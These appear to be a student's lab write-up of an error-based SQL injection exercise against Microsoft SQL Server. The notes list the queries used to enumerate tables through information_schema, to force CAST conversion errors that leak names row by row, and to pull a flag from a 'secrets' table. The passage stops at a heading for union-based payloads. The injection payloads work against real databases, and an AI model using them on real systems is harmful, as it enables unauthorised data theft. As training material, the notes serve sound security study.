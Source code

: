 ```sql
SELECT TABLE_NAME from exercise.information_schema.tables where TABLE_SCHEMA='dbo'
```
Upon testing this query in the `SQL Console` we see two table names `products, and secrets`
![[Pasted image 20240820204400.png]]
so now to run inside `CAST` - changed `ORDER by SCHEMA_NAME` to `ORDER by NAME` to get it to work.
```sql
CAST((SELECT TABLE_NAME from exercise.information_schema.tables where TABLE_SCHEMA='dbo' ORDER BY NAME OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY) as integer)
```
can see the `products` table
![[Pasted image 20240820204930.png]]
Changing the `OFFSET` by 1 
```sql
CAST((SELECT TABLE_NAME from exercise.information_schema.tables where TABLE_SCHEMA='dbo' ORDER BY NAME OFFSET 1 ROWS FETCH NEXT 1 ROWS ONLY) as integer)
```
can see the `secrets` table
![[Pasted image 20240820205046.png]]

What we know so far:

Database name = exercise
Schema name = dbo
Table name = secrets

now to get the `columns` we need to build the query with the `database` name and the `table` name

```sql
select * from exercise.information_schema.columns where table_name ='secrets'
OR
select * from exercise.information_schema.columns where table_name ='secrets' and TABLE_SCHEMA='dbo'
```
Testing in `SQL Console` to ensure it works
![[Pasted image 20240820205518.png]]
When it comes to `MSSQL` we need to be coomplete, so in order to grab the flag we need to use the `SQL` query below 

```sql
cast((select flag from exercise.dbo.secrets) as integer)
```

select the `flag` from column
using the `exercise` database
the `dbo` schema
and the `table` secrets

`Error Based SQL` is very slow and methodical, you have to find the database - schema - table - and ultimately the `flag` and each language is different
`OS{errorBasedSQLi}`
![[Pasted image 20240820211227.png]]

-----------
#### 8.3.2 Union Based Payloads (HARD)
